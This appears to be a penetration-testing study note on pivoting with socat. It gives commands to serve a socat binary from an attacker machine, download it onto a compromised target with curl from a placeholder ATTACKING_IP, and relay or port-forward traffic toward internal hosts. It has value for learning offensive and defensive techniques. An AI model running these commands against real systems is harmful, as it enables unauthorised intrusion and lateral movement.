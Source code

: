<figure><img src="../../../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

Before using socat, it will usually be necessary to download a binary for it, then upload it to the box.

On Kali (inside the directory containing your Socat binary):

`sudo python3 -m http.server 80`

Then, on the target:\
`curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME`

***

after setting up a listener on your local machine, on the compromised server, use the following command to start the relay:\
`./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`

if the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward:\
`./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`

So, this command sets up a TCP port forwarding from the local port 33060 to the remote address 172.16.0.10 on port 3306.

./socat`: Executes the` socat`command.`&#x20;

`2.`tcp-l:33060,fork,reuseaddr\`: Creates a TCP listener on localhost (127.0.0.1) at port 33060 with the following options:

* `fork`: Creates a new process for each incoming connection.
* `reuseaddr`: Allows the socket to be reused immediately after it is closed.
